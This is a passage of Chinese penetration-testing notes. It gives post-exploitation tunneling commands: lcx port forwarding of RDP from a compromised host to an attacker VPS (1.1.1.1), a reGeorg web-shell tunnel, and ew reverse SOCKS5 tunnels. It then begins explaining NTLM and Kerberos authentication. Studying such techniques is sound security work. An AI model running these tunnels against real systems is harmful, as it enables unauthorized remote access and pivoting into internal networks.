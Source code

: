 ### lcx.exe

使用条件：服务器通外网，拥有自己的公网 ip  
说明：lcx 是一个经典的端口转发工具，可以直接把`3389端口转发到公网的vps上`  
命令如下

```bash
# 拿到 shell 后执行命令
lcx.exe -slave 1.1.1.1 9999 127.0.0.1 3389  ## 1.1.1.1 为公网 IP，转发 3389 端口到 9999 端口

# 配合 Linux 对应工具 portmap
./portmap -m 2 -p1 9999 -p2 33889  ## 这里 p1 对应监听端口，p2 对应要转发的端口

## Windows 远程连接 mstsc
rdesktop 1.1.1.1:33889
```

## 基于 web 服务的 socks5 隧道

常用的工具有：reGeorg，reDuh，Tunna 和 Proxifier  
先利用 `reGeorgSocksProxy.py`进行生成一个隧道，-p 为指定隧道的端口，-u 为刚刚上传的 tunnel 文件地址。

```bash
python reGeorgSocksProxy.py -p 8888 -u http://x.x.x.x/tunnel.php
```

然后利用 socks5 代理指定的端口

### ew 搭建 socks5 隧道

目标主机为 windows 系统，选择上传 ew\_for\_Win.exe 文件。  
公网 vps 使用 ew\_for\_linux64 文件

```bash
## VPS 上执行
./ew_for_linux64 -s rcsocks -l 1080 -e 9999

## 然后在目标执行
ew_for_Win.exe -s rssocks -d 1.1.1.1 -e 11000
```

## 协议概念

学习 ntlm、kerberos、smb 协议，以及 ACL,SACL 概念

### NTLM 认证协议

`NTLM协议`基于 NTLM hash，windows 本地登陆的密码由 LM hash 和 NTLM hash 组成，存储在 SAM 文件中，前一部分是 LM Hash，后一部分是 NTLM Hash。

### Kerberos 认证协议

`kerberos协议` 是一种网络认证协议，整个认证过程涉及到三方，包含客户端、服务端和 KDC，而在 Windows 域环境中，KDC 的角色是由 DC 域控制器来担当  
其中 `KDC`中包括 AS（认证服务器）和 TGS（Ticket GrantingServer 票据服务器）和 AD（活动目录）  
整体流程如下
